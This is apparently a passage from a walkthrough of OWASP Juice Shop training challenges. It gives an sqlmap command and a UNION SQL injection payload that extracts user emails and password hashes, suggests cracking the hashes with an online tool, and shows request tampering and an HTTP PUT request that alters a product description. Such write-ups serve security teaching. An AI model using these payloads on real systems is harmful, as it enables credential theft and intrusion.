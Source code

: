So the command look like this:

`sqlmap -u 'http://192.168.99.101:3000/rest/product/search?q=something' -p 'q' --dbms='sqlite'`

I had to increase the risk level to 2 to get results:

`--level=2`

My succeeding payload is: `q=something')) UNION ALL SELECT NULL,'qzbxq'||'mZqQCoizQFtquCOMVIMxLCpyaAjHXowBYRJPxgIJ'||'qzkvq',NULL,NULL,NULL,NULL,NULL,NULL-- FlvR` (this might look different for you)

We can now extract the general schema behind this query:
* we don't need anything that comes after the comment `--`
* we will add `from users` before the comment to retrieve the data from the users table
* we can substitute `'qzbxq'||'mZqQCoizQFtquCOMVIMxLCpyaAjHXowBYRJPxgIJ'||'qzkvq'` for `email` or `password` (this is just guessing of the column name) to see the results printed on the screen
* Simply by trying and replacing `NULL` values with guessed column names, we can forge a payload that returns the emails and their hashed passwords:

This payload solves the challenge:

`q=something')) UNION ALL SELECT NULL,email,password,NULL,NULL,NULL,NULL,NULL from users--`

You can now put the hashes into an online md5 cracker like [hashkiller](https://hashkiller.co.uk/md5-decrypter.aspx) and get the clear text passwords.
#### 20: "Post some feedback in another users name."
<span class='badge badge-warning icon icon-history'>log in as any user</span>

Go to "Contact Us" as any user logged in.
Again, turn on Burp's Proxy Intercept to be able to edit the packet before actually sending it.
Enter a different value for `"UserId":` to solve the challenge.

#### 21: "Place an order that makes you rich."
<span class='badge badge-warning icon icon-history'>log in as any user</span>

Log in as any user (a self-registered user also works). Turn on Burp Intercept. Then put some stuff in your basket. Take a look into the intercepted request and change the value `"quantity":` to something negative and forward the request.

#### 22: "Access a developer's forgotten backup file."
<span class='badge badge-warning icon icon-history'>solve challenge 11 first</span>

Download "package.json.bak" with the same technique as described in challenge 11: "Access a salesman's forgotten backup file."

#### 23: "Change the href of the link within the O-Saft product description into `http://kimminich.de`."
<span class='badge badge-warning icon icon-history'>solve challenge 18 first</span>

```
PUT /api/Products/8 HTTP/1.1
Host: 192.168.99.100:3000
Content-Type: application/json;charset=utf-8
Content-Length: 244
Connection: close

{"description":"O-Saft is an easy to use tool
to show information about SSL certificate and
tests the SSL connection according given list
of ciphers and various SSL configurations.
<a href=\"http://kimminich.de\" target=\"_blank\">More...</a>"}
```
> _NOTE: You might need to remove some `\r` (line breaks) that were added for formatting._
